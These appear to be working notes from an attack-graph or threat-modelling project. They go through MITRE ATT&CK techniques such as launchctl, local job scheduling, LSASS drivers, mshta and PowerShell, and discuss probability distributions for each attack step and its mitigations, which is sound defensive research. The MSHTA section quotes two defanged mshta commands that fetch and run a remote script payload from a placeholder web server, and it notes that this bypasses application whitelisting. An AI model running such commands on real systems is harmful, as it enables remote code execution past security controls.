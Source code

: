 This command can be executed and exploited with no restriction and user rights if the user account management isn't properly done. The only mitigation for this attack is userAccountManagement, for which we should find a probability distribution. If we do, the launchctl attackStep won't need a probability distribution.

We could then assess this probability distribution to be binary.

### Local Job Scheduling 
https://attack.mitre.org/techniques/T1168/
This functionality can be exploited with no restriction and user rights if the user account management isn't properly done. The only mitigation for this attack is userAccountManagement, for which we should find a probability distribution. If we do, the Local Job Scheduling attackStep won't need a probability distribution.

We could then assess this probability distribution to be binary.

### LSASS_Driver (needs???)

Adversaries may target lsass.exe drivers to obtain execution and/or persistence. By either replacing or adding illegitimate drivers (e.g., DLL Side-Loading or DLL Search Order Hijacking), an adversary can achieve arbitrary code execution triggered by continuous LSA operations.

### MSHTA

Adversaries can use mshta.exe to proxy execution of malicious .hta files and Javascript or VBScript through a trusted Windows utility. There are several examples of different types of threats leveraging mshta.exe during initial compromise and for execution of code.

Files may be executed by mshta.exe through an inline script: ``mshta vbscript:Close(Execute("GetObject(""script:https[:]//webserver/payload[.]sct"")"))``

They may also be executed directly from URLs:`` mshta http[:]//webserver/payload[.]hta``

Mshta.exe can be used to bypass application whitelisting solutions that do not account for its potential use. Since mshta.exe executes outside of the Internet Explorer's security context, it also bypasses browser security settings.

The mshta.exe command can be executed with userRights and no restriction as long as it is enabled on the user session. 

https://www.hackingarticles.in/bypass-application-whitelisting-using-mshta-exe-multiple-methods/
Exploits can be performed in minutes if not seconds so this attack step might be considered as instantenous.

If we can find a probability distribution for the disableOrRemoveFeatureOrProgram mitigation, we could then assess this probability distribution to be binary. 

Love found a probability for this step. Should we consider it as the probability for the mitigations to be enabled or the probability of success?


### Powershell

Probability found by Love.
https://www.researchgate.net/publication/262327083_Aggregating_vulnerability_metrics_in_enterprise_networks_using_attack_graphs
